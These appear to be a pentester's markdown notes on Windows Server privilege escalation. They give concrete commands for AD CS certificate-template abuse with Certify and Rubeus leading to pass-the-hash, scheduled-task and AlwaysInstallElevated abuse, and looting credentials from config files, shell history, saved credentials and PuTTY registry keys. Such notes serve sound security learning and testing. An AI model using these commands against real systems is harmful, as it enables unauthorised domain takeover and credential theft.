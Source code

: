 ```yaml
---
title: Windows Server privilege-escalation notes
---
```


## AD Certificate Services
Being within AD domain where the AD CS is installed, a domain user can request a X.509 certificate for different purposes (including AD authentication via PKINIT feature). AD CS has admin-defined **Certificate Templates** that specify available parameters and values of a requested certificate.

Most important values:

* CA Name - which server is the Certified Authority for the cert.
* Template Name - the name of the cert template.
* Enrollment Rights - who can request (which group of users) such a cert.
* PKI Extended Key Usage - what's the purpose of the cert.

`Certify` is a tool to enumerate and abuse misconfiguration in AD CS (vulnerable certificate templates).

```powershell
# Check possible vulnerabilities in AD certificates
Certify.exe find /vulnerable
```

If any user can enroll this certificate (e.g. _Domain Users_ group), its purpose is defined as _Client Authentication_ (an user can auth to AD using this cert) and ENROLLEE_SUPLIES_SUBJECT flag is set (subject of the cert is defined by enrollee)... **privilege escalation**! Any user can enroll the certificate for Administrator and use it to perform AD authentication.

```powershell
# Request an certificate for Administrator
Certify.exe request /ca:<ca-name> /template:<template-name> /altname:Administrator

# Request Kerberos TGT using the received certificate
Rubeus.exe asktgt /user:Administrator /certificate:<cert.pfx> /password:password /ptt

# Check if privilege escalation works (it might not work but look for NT hash)
dir \\<dc>\C$
```

Requesting TGT using the certificate (with `Rubeus`) should return user's NT hash that can be use to **pass-the-hash** (if PKINIT is enabled). It uses so-called user-to-user (u2u) auth - the user authenticates to itself using Kerberos and retrieves its NT hash.

**NOTE**: Certify.exe returns a `PEM` format certificate. It must be converted into the `PFX` format to use it with `Rubeus`:

```bash
openssl pkcs12 -in <cert.pem> -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <cert.pfx>
```

> **RESOURCES**: [Awesome BlackHat explanation](https://www.youtube.com/watch?v=ejmAIgxFRgM), [corresponding blog post](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

Most `impacket` tools are able to work with TGT authentication.

## Misconfigurations

### Scheduled tasks
If an attacker is able to modify the `Task To Run` file, he can run a code with `Run As User` privileges.

```powershell
# List all scheduled tasks
schtasks /query /tn <task-name> /fo list /v

# Check file permissions
icacl <path>
```

### Services

### AlwaysInstallElevated
`.msi` files are used to install applications on the system. They usually run with the privileges of the current user but sometimes it might be configured to run installation files with higher privileges from any user account. Malicious `.msi` files can be generated using `msfvenom` tool.

```powershell
# Check if AlwaysInstallElevated is set
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

# Execute an .msi file
msiexec /quiet /qn /i <path>
```

## Credentials looting

### Files

#### IIS configuration
Configuration files of the IIS web server might store some credentials.

```cmd
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

#### Unattended Windows installations
If the OS is installed remotely (unattended installation) there is a chance that the installation config file is still somwhere in the file system. It might include credentials.

```cmd
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

### Shell history

```powershell
# To read history from cmd.exe
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```powershell
# To read history from Powershell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Memory-saved credentials

```powershell
# Show saved credentials and accounts in a memory
cmdkey /list
```

> **NOTE**: Even if the credentials are not shown, you can use the `runas /savecred /user:<user> cmd.exe` command in order to use them from a memory.

### SSH software
PuTTY is propably the most common SSH client for Windows in use. It often stores session parameters (e.g. proxy configuration) in the Windows registry.

```powershell
# Show PuTTY configuration
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

